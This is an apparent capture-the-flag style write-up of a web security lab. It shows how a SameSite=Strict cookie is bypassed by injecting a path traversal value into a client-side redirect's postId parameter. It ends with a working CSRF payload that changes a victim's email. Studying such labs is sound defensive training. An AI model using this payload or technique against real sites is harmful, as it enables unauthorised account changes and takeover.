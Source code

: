 ### Lab: SameSite Strict bypass via client-side redirect

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: wiener:peter

_____

Analysis and Exploit:

1. Logged-in as user _wiener_, assigen session cookie with SameSite=Stric flag
```Set-Cookie: session=bcOGuoGFahOHetIsasKtpzUDY3o2jp1Z; Secure; HttpOnly; SameSite=Strict```

2. Server accepts GET method on **/my-account/change-email?email=ta%40st&submit=1**

3. After posting a comment, the application redirected to **/post/{id}** using a Javascript script, _commentConfirmationRedircect.js_

```javascript
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
Cache-Control: public, max-age=3600
X-Frame-Options: SAMEORIGIN
Content-Length: 231

redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```

where variable **blogPath** is **/post**, as specified in the response body to **GET /post/comment/confirmation?postId={id}** request:

```html
<script src='/resources/js/commentConfirmationRedirect.js'></script>
<script>redirectOnConfirmation('/post');</script>
```

```new URL```: The URL() constructor returns a newly created URL object representing the URL defined by the parameters

```url.searchParams.get("postId")```: The searchParams readonly property of the URL interface returns a URLSearchParams object allowing access to the GET decoded query arguments contained in the URL


Injected **1/../../my-account**


```javascript
redirectOnConfirmation = ('/post') => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = '/post' + '/' + '1/../../my-account';
    }, 3000);
}
```

resulted in **/my-account**

4. Payload:

```html
<script>
    document.location = "URL/post/comment/confirmation?postId=1/../../my-account/change-email?email=yougot%40hacked%26submit=1"
</script>```